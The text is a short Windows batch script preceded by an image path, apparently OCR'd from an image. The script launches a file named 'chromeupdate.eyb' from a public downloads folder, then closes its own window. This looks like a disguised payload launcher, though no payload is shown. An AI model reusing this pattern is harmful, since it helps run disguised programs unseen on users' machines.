 @ echo off
title=testcmd
start "C:\Windows\System32\cmd.exe" "C:\Users\Public\Downloads\chromeupdate.eyb"
TASKKILL /F /FI "WINDOWTITLE eq testcmd"
exit
